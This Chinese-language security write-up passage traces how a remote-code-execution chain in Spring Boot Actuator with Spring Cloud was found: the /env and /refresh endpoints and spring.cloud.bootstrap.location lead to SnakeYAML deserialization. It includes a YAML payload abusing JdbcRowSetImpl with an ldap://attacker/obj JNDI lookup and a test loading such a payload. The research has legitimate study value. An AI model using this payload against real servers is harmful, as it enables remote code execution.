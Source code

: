 ### How to find?

作者是如何找到这个利用方式的？这个一直是看完这种大佬文章后第一个想知道答案的问题，也是最难的问题，这里尝试找到一些思路和线索

首先，在不使用 Spring Cloud 组件时，Spring Boot Actuator 的 `/env` endpoint 默认情况下只能读取环境变量的值，因此第一问题就是，如何得知有可以修改环境变量的功能？

这里就需要对 Spring 生态，如 Spring Boot, Spring Cloud 等，有一定的了解和使用经验，否则会无从下手。通过搜索 Spring Cloud 的文档，找到了相关说明 https://cloud.spring.io/spring-cloud-static/spring-cloud.html#_endpoints

> - POST to `/env` to update the `Environment` and rebind `@ConfigurationProperties` and log levels
>
> - `/refresh` for re-loading the boot strap context and refreshing the `@RefreshScope` beans

从文档中，我们也知道了请求 `/refresh` 可以触发 bootstrap context reload，并加载修改后的环境变量

那么接下来的问题就是找到哪些环境变量是可以修改的，并且在 reload 之后会执行某些敏感的操作。根据文章中的说明，能修改的环境变量非常的多，需要一一尝试。

这里正向思考没有什么思路，转从逆向，尝试从 `spring.cloud.bootstrap.location` 入手，根据  Spring 文档中的说明 [customizing-bootstrap-properties](https://cloud.spring.io/spring-cloud-commons/multi/multi__spring_cloud_context_application_context_services.html#customizing-bootstrap-properties)

> The `bootstrap.yml` (or `.properties`) location can be specified by setting `spring.cloud.bootstrap.name` (default: `bootstrap`) or `spring.cloud.bootstrap.location` (default: empty) — for example, in System properties.

可以得知这个变量是用于指定 bootstrap 配置文件的位置，支持的文件格式包括 `yml` 和 `properties` ，对 Java 安全熟悉的朋友可能会联想到 yml 的解析会存在[反序列化](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet )的问题，如果这里配置文件的内容我们能够控制，就存在可以被利用的可能。

再下一步，就是结合 Spring Cloud 源码和动手 debug，确定 `spring.cloud.bootstrap.location` 环境变量的处理和配置文件的解析过程。根据前面的分析，我们知道代码中会下载指定的 yml 文件，并且使用 SnakeYAML 库进行解析，因此存在反序列化漏洞。

当然，实际的过程会比刚才描述的要复杂很多，需要投入很多的时间和精力阅读文档、调试代码。



### SnakeYAML Payload

根据 https://github.com/mbechler/marshalsec/blob/master/marshalsec.pdf 中的介绍，除了 `javax.script.ScriptEngineManager ` 类外，我们还可以使用 `com.sun.rowset.JdbcRowSetImpl` 类，通过 JNDI 注入来完成利用，payload 如下

```yml
!!com.sun.rowset.JdbcRowSetImpl
  dataSourceName: ldap://attacker/obj
  autoCommit: true
```

相比 `ScriptEngineManager`，JNDI 注入在高版本 JDK 利用会有一些限制，不过因为 Spring Boot 默认使用 Tomcat 容器，仍可以成功利用，详细可参考 Michael Stepankin 大佬的另一篇文章 [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)



### Changes In YamlPropertySourceLoader

在寻找高版本 Spring Boot Actuator 失败原因的过程中，也发现了即使  `spring.cloud.bootstrap.location` 能够成功 resolve，也仍然无法成功，原因在与 Spring boot 中解析 yml 的类 `org.springframework.boot.env.YamlPropertySourceLoader` 逻辑也发生了变化，测试代码如下

```java
    @Test
    public void test() throws Exception {
        new YamlPropertySourceLoader().load("name", new ClassPathResource("payload/yaml-payload.yml"));
    }
```

